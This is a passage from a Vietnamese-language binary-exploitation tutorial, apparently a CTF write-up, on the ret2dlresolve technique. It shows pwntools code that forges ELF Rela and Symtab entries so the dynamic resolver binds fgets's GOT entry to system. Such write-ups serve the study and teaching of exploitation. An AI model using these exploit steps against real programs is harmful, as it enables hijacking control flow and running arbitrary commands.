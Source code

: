 ```c=
  Elf64_Sxword r_addend; /* Giá trị bù thêm (chỉ có trong .rela) */
} Elf64_Rela;
```
Vì Resolver sẽ sử dụng các trường r_offset và r_info để tiến hành resolve ra hàm vậy nên ta cần fake giá trị của 2 trường này và trường r_addend ta sẽ set thành 0.
- Với trường r_offset thì ta biết đây sẽ là một GOT entry của hàm cần resolve và ở đây ta sẽ tiến hành kiểm tra bảng GOT để chọn ra entry của một hàm để ta fake:
> ![{D96A3AC7-00A0-4CA6-AF68-401B6B6040AA}](https://hackmd.io/_uploads/BkI6-K4hkl.png)
> Ta sẽ sử dụng entry của fgets để fake và khi resolve thì địa chỉ thực của fgets sẽ là địa chỉ hàm system.
> Vậy ta có giá trị của trường r_offset là: `0x404018`
- Với trường r_info thì đây đóng vai trò như một trường lưu thông tin cơ bản của hàm cần resolve và có thể được truy xuất là index (Sym_num) và loại với công thức:
> ```c=
> #define ELF64_R_SYM(i)  ((i) >> 32) /* Lấy index */
> #define ELF64_R_TYPE(i) ((i) & 0xffffffff) /* Lấy loại */
> ```
> Nên trường này sẽ được tính toán theo công thức:
> ```c=
> r_info = (sym_num << 32) | 0x7
> ```
> Vậy ta dễ dàng có giá trị của r_info là: `0x3ad00000007`

Vậy tổng kết lại ta có được cấu trúc fake rela như sau:
```python=
# Build fake rela
r_offset = p64(exe.got.fgets)
r_info = p64((sym_num << 32) | 0x7)
r_addend = p64(0)
rela_fake = r_offset + r_info + r_addend
print(hex(u64(r_offset)))
print(hex(u64(r_info)))
```

##### 2. Fake Symtab
Ta có cấu trúc của một Symtab trong C:
```python=
typedef struct
{
    Elf64_Word    st_name;    /* Offset đến tên symbol trong .dynsym */
    unsigned char st_info;    /* Loại symbol */
    unsigned char st_other;   /* Các symbol của glibc phiên bản dưới 2.2 */
    Elf64_Half    st_shndx;   /* Section index */
    Elf64_Addr    st_value;   /* Địa chỉ symbol đã resolve */
    Elf64_Xword   st_size;    /* Kích thước symbol */
} Elf64_Sym;
```
Với Symtab thì Resolver sử dụng trường st_name và st_info để resolve hàm nên ta thiết lập:
- st_name: ta đã tính toán giá trị của trường này từ trước vậy nên ta chỉ cần gán vào dưới dạng byte 32 bit.
- st_info: đơn giản đây là loại symbol và ta sẽ set thành giá trị `0x12` có ý nghĩa đây là một hàm toàn cục và được gán dưới dạng byte 8 bit.
Và các giá trị còn lại ta đều set thành 0 và ta có một fake Symtab:
```python=
# Build fake symtab
st_name = p32(st_name)
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
st_size = p64(0)
symtab_fake = st_name + st_info + st_other + st_shndx + st_value + st_size
print(hex(u32(st_name)))
```
